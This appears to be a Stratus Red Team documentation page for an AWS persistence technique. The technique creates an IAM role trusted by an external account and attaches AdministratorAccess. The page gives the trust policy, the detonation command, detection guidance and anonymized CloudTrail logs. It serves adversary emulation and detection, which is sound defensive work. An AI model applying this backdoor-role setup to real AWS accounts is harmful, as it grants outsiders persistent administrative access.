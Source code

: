 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

*Note: For safety reasons, the detonation code makes sure that this role has no real effective permissions, by attaching a permissions boundary denying all actions. This could also be achieved with an inline role policy, but using a permissions boundary allows us to use a single API call (CreateRole).*

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```





## Detonation logs <span class="smallcaps w3-badge w3-pink w3-round w3-text-sand" title="TODO">new</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:AttachRolePolicy`

- `iam:CreateRole`


??? "View raw detonation logs"

    ```json hl_lines="6 40"

    [
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "39480357-0a1d-4531-a3f2-71be4c041c25",
	      "eventName": "AttachRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "09b3fc1c-c0c0-4e86-9bad-e0928a089e0d",
	      "requestParameters": {
	         "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   },
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "d2905ac3-9898-433f-b10d-9302abe4e208",
	      "eventName": "CreateRole",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "105d4d57-6f6d-43ce-b6a4-5b67c68b4ab5",
	      "requestParameters": {
	         "assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "permissionsBoundary": "arn:aws:iam::aws:policy/AWSDenyAll",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": {
	         "role": {
	            "arn": "arn:aws:iam::609418236337:role/stratus-red-team-malicious-iam-role",
	            "assumeRolePolicyDocument": "%7B%0A%20%20%22Version%22%3A%20%222012-10-17%22%2C%0A%20%20%22Statement%22%3A%20%5B%0A%20%20%20%20%7B%0A%20%20%20%20%20%20%22Effect%22%3A%20%22Allow%22%2C%0A%20%20%20%20%20%20%22Principal%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22AWS%22%3A%20%22arn%3Aaws%3Aiam%3A%3A193672423079%3Aroot%22%0A%20%20%20%20%20%20%7D%2C%0A%20%20%20%20%20%20%22Action%22%3A%20%22sts%3AAssumeRole%22%0A%20%20%20%20%7D%0A%20%20%5D%0A%7D",
	            "createDate": "Aug 1, 2024 1:37:41 PM",
	            "path": "/",
	            "permissionsBoundary": {
	               "permissionsBoundaryArn": "arn:aws:iam::aws:policy/AWSDenyAll",
	               "permissionsBoundaryType": "Policy"
	            },
	            "roleId": "AROA53G8Z8NGXMJ597G3E",
	            "roleName": "stratus-red-team-malicious-iam-role"
	         }
	      },
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
